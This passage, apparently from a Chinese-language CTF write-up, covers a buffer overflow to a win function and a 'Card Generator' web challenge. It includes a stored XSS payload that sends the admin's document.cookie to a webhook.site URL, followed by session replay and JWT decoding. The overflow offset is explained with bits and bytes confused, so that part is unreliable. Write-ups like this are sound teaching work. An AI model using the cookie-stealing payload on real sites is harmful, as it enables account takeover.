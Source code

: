 ```c=
    return 0;
}

```
要想辦法從local variables跳到return address，題目給str是32bit，而saved rbp是8 bits(64位元8 bits,32位元4bit)，因此要40bit才能跳到return address
> ![image](https://hackmd.io/_uploads/ryfLGs15T.png)
用ida pro 看win的位置
> ![image](https://hackmd.io/_uploads/SkjAESqF6.png)
因為是little ㄟ底恩 所以要倒著寫
> ![image](https://hackmd.io/_uploads/ByV-SS9Kp.png)

> ![image](https://hackmd.io/_uploads/H1A7Br5Y6.png)

# Web
[官方writeup跟docker](https://github.com/Vincent550102/My-CTF-Challenge)
## Card Generator
> ![image](https://hackmd.io/_uploads/SkdXbtitp.png)
- 題目打開來是一個更新profile的網站跟分享給admin的
> ![image](https://hackmd.io/_uploads/Bk1triita.png)

- 在username的地方有XSS的洞 因此要想辦法拿到admin的cookie，因為share with admin的時候，admin在訪問時會帶上他的cookie訪問，我們可以用webhook或是requestbin來把cookie傳回給我們
>　![image](https://hackmd.io/_uploads/H1f2f2sFa.png)

> ![image](https://hackmd.io/_uploads/HJOCMnjYa.png)

- 如何偷admin cookie是參考[這個](https://stackoverflow.com/questions/72248884/how-to-steal-a-cookie-using-xss-script)
- 先輸入我們的payload 中間網址的地方改成我們webhook的，*是一定要的
```
<script>window.location='https://webhook.site/cd77b642-a9e1-490b-8bf2-b74dc0534ef2**?cookie=**'+document.cookie</script>
```
- 成功有拿到session
> ![image](https://hackmd.io/_uploads/rJfwB2sta.png)
- 這時把他share給admin就可以拿到他的session
> ![image](https://hackmd.io/_uploads/ByA5AfHca.png)
- 貼上到我們session得地方就可以成功拿到admin的權限了
> ![image](https://hackmd.io/_uploads/HyHU1nstT.png)

- 通常看到eyj或是ej開頭的都是jwt
- 把admin的session貼到jwt decoder裡頭 就會發現header有個link 網址後就得到flag了 
> ![image](https://hackmd.io/_uploads/rJ0kyXScT.png)

> ![image](https://hackmd.io/_uploads/r1Gm0siKT.png)


## My First Shopping Cart
- 試著找出隱藏的商品
> ![image](https://hackmd.io/_uploads/S1wu31TYa.png)
